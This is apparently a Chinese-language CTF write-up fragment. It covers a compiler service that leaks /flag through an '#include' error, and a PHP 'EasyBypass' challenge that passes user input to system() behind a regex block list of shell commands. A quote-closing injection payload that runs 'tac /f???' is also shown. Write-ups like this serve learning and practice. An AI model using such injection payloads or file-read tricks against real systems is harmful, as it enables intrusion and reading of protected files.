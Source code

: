 https://xz.aliyun.com/t/9293

https://johnfrod.top/ctf/2020-%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98greatphp/

## [FireshellCTF2020]Caas

打开发现是一个**C语言**编译器，会将编译后的文件返回给你运行

所以可执行文件实际上是不会在远程执行的，只能尝试通过编译报错回显信息

没过滤，直接尝试包含`/flag`

```cpp
#include "/flag"
```

虽然会报错，但是文件内容会在报错信息中回显

![](https://raw.githubusercontent.com/xlccccc/Image/master/hexoblog/202212290018157.png)

## [N1CTF 2018]eating_cms



## EasyBypass

```php
<?php

highlight_file(__FILE__);

$comm1 = $_GET['comm1'];
$comm2 = $_GET['comm2'];


if(preg_match("/\'|\`|\\|\*|\n|\t|\xA0|\r|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $comm1))
    $comm1 = "";
if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|\||tail|more|cat|string|bin|less||tac|sh|flag|find|grep|echo|w/is", $comm2))
    $comm2 = "";

$flag = "#flag in /flag";

$comm1 = '"' . $comm1 . '"';
$comm2 = '"' . $comm2 . '"';

$cmd = "file $comm1 $comm2";
system($cmd);
?>
```

其实没过滤什么，闭合双引号就好

```
?comm1=index.php";tac /f???;"&comm2=
```
